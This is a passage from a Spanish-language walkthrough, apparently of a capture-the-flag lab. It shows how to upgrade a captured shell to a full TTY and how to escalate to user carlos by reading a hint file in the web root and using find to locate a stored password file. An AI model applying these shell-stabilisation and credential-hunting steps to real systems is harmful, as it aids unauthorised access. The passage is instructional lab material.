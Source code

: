 ### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user carlos

Si listamos los archivos que hay en la siguiente direccion del sistema:

```shell
ls -la /var/www/html/
```

Info:

```
total 40
drwxr-xr-x 1 root root  4096 Jun 29  2024 .
drwxr-xr-x 1 root root  4096 Jun 29  2024 ..
-rw-r--r-- 1 root root   163 Jun 29  2024 antiguo_y_fuerte.txt
-rw-r--r-- 1 root root 10671 Jun 29  2024 index.html
-rw-r--r-- 1 root root   157 Jun 29  2024 problems.php
drwxrwxrwx 1 root root  4096 Jan 16 07:14 uploads
```

Vemos que hay uno interesante llamado `antiguo_y_fuerte.txt` que si lo leemos veremos lo siguiente:

```
Es imposible que me acuerde de la pass es inhackeable pero se que la tenpo en el mismo fichero desde fa 24 anys. trobala buscala 

soy el unico user del sistema.
```

Vamos a buscar si hubiera algo con esa palabra:

```shell
find / -name "inhackeable*" 2>/dev/null
```

Info:

```
/usr/share/viejuno/inhackeable_pass.txt
```
